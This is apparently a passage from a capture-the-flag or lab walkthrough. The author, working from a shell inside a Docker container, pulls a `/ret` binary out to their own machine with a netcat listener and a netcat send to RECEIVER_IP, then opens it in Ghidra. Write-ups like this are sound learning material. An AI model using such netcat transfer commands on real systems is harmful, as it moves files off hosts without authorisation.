 We got a `/ret` binary, let's run it:


![Pasted image 20250328174509.png](../../IMAGES/Pasted%20image%2020250328174509.png)

Weird, it could mean we are inside of a docker container:

![Pasted image 20250328174532.png](../../IMAGES/Pasted%20image%2020250328174532.png)

![Pasted image 20250328174544.png](../../IMAGES/Pasted%20image%2020250328174544.png)

We are inside of a docker container, let's analyze the binary in our local machine, since `python3` is not enabled in the container we need to go with `nc`:

```
nc -l -p PORT > ret # On our receiver machine
nc -w 3 RECEIVER_IP PORT < ret # On our shell
```

We can go with `ghidra` to analyze the binary:

![Pasted image 20250328175340.png](../../IMAGES/Pasted%20image%2020250328175340.png)
